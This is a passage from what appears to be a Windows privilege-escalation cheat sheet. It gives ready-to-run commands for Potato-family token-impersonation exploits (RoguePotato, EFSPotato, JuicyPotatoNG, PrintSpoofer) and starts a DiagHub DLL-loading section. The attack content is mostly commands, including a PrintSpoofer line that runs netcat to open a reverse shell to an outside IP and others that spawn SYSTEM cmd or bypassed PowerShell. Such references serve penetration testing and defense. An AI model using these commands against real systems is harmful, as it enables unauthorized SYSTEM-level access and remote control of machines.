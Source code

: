 ```powershell
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```

### EFSPotato (MS-EFSR EfsRpcOpenFileRaw)

* Binary available at [zcgonvh/EfsPotato](https://github.com/zcgonvh/EfsPotato)

```powershell
# .NET 4.x
csc EfsPotato.cs
csc /platform:x86 EfsPotato.cs

# .NET 2.0/3.5
C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe EfsPotato.cs
C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe /platform:x86 EfsPotato.cs
```

### JuicyPotatoNG

* [antonioCoco/JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)

```powershell
JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami" > C:\juicypotatong.txt
```

### PrintSpoofer (Printer Bug)

> this work if SeImpersonatePrivilege is enabled

* Binary available at [itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

```powershell
# run nc -lnvp 443 then :
.\PrintSpoofer64.exe -c "C:\Temp\nc64.exe 192.168.45.171 443 -e cmd"
# without listener
.\PrintSpoofer64.exe -i -c cmd
# Via RPD
.\PrintSpoofer64.exe -d 3 -c "powershell -ep bypass"
```

## EoP - Privileged File Write

### DiagHub

:warning: Starting with version 1903 and above, DiagHub can no longer be used to load arbitrary DLLs.

The Microsoft Diagnostics Hub Standard Collector Service (DiagHub) is a service that collects trace information and is programmatically exposed via DCOM.
This DCOM object can be used to load a DLL into a SYSTEM process, provided that this DLL exists in the `C:\Windows\System32` directory.

#### Exploit
